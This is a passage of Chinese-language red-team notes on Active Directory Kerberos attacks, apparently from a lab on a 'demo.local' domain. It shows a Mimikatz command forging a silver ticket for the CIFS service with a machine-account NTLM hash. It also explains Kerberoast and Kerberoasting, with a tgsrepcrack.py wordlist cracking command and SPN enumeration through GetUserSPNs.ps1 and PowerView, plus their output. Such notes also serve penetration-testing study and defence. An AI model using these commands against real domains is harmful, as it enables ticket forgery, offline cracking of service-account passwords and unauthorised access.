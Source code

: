 	常用的服务名有以下:
		服务名称					同时需要的服务
		WMI						HOST、RPCSS
		PowerShell Remoting		HOST、HTTP
		WinRM					HOST、HTTP
		Scheduled Tasks			HOST
		Windows File Share		CIFS
		LDAP					LDAP
		Windows Remote Server	RPCSS、LDAP、CIFS
		==>
		kerberos::golden /domain:demo.local /sid:S-1-5-21-1239069908-882060383-2558203358 /target:owa2010dc.demo.local /service:cifs /rc4:aac6185241728f7685c8d50c61573b75 /user:silver /ptt
			(/rc4:aac6185241728f7685c8d50c61573b75 這裏我用的是owa2010dc$机器賬戶的NTLM hash
        Silver_Ticket1.png
			
			
0x06. Kerberoast (Kerberos TGS服务票据(Service Ticket)离线爆破)
	简义 : 发生在上面的过程3,4, 目标的服务账户的服务器主体名称(SPN)请求一个Kerberos服务票据 (TGS) 。
	这里会采用一个有效的用户认证票据(TGT)来请求一个或几个运行在服务器上的目标服务票据。
	域控不会检测用户是否真正连接到了这些资源上(即使用户可能真的有权限访问)。
	域控会在活动目录中查找SPN并且用SPN关联的用户账户把票据进行加密，以此赋予用户访问服务的权限。
	请求的Kerbero服务票据的加密类型是 RC4_HMAC_MD5, 这意味着服务账户的NTLM密码哈希会被用来加密服务票据。
	所以Kerberoast能够通过尝试不同的NTLM哈希来解开kerberos票据，一旦票据被成功解开，它的密码也就到手了。
	(获得服务票据不需要提权，同时也不会发送数据到目标机器。)
	https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
		python tgsrepcrack.py wordlist.txt sql.kirbi
	
0x07. Kerberoasting - Kerberoast攻击的另一种姿势
	我们通常不关心基于主机的SPN，因为计算机的机器帐户密码默认是随机的，每30天更换一次。
	但是，请记住，也可以为域用户帐户注册任意的SPN。
	一个常见的例子就是一个服务账户管理着多个MSSQL实例;此用户帐户注册的每个MSSQL实例都有一个<MSSQLSvc/HOST:PORT> 这样的SPN，
	这个SPN存储在用户的serviceprincipalname属性里.如果我们有一个为域用户帐户注册的任意SPN，
	那么该用户帐户的明文密码的NTLM哈希值就将用于创建服务票证	
	
	注意的是： 任何具有服务主体名称SPN的域用户帐户都可以被该域中任何用户请求该SPN的TGS，
	从而允许攻击者离线破解服务帐户的明文密码！这显然取决于一个可破解的服务帐户明文密码的复杂度
	"老套的"Kerberoasting攻击姿势
	Tim给出的利用方法或工具包是使用工具集的组合来请求票证，并从内存中提取(使用Mimikatz)票证，然后将它们转换为可破解的格式。一般来说，整个过程如下：
	1. 使用Tim的GetUserSPNS.ps1脚本或者Sean的Find-PSServiceAccounts.ps1脚本或PowerView的"Get-NetUser -SPN"来枚举域帐户的SPN。
	枚举域帐户的SPN :  
		GetUserSPNS.ps1 - https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
		PS C:\Users\Administrator\Desktop\kerberoast> . .\GetUserSPNs.ps1
			ServicePrincipalName : kadmin/changepw
			Name                 : krbtgt
			SAMAccountName       : krbtgt
			MemberOf             : CN=Denied RODC Password Replication Group,CN=Users,DC=demo,DC=local
			PasswordLastSet      : 9/13/2016 11:37:59 AM

			ServicePrincipalName : test/test
			Name                 : testwin10
			SAMAccountName       : testwin10
			MemberOf             :
			PasswordLastSet      : 1/12/2018 3:00:22 PM
		PowerView 的 Get-NetUser -SPN - https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089
		PS C:\Users\Administrator\Desktop\PowerSploit\Recon> Get-NetUser -spn
			objectsid              : S-1-5-21-1239069908-882060383-2558203358-502
			iscriticalsystemobject : True
			samaccounttype         : 805306368
			objectcategory         : CN=Person,CN=Schema,CN=Configuration,DC=demo,DC=local
			objectclass            : {top, person, organizationalPerson, user}
			logoncount             : 0
			lastlogon              : 1/1/1601 8:00:00 AM
			serviceprincipalname   : kadmin/changepw
			adspath                : LDAP://CN=krbtgt,CN=Users,DC=demo,DC=local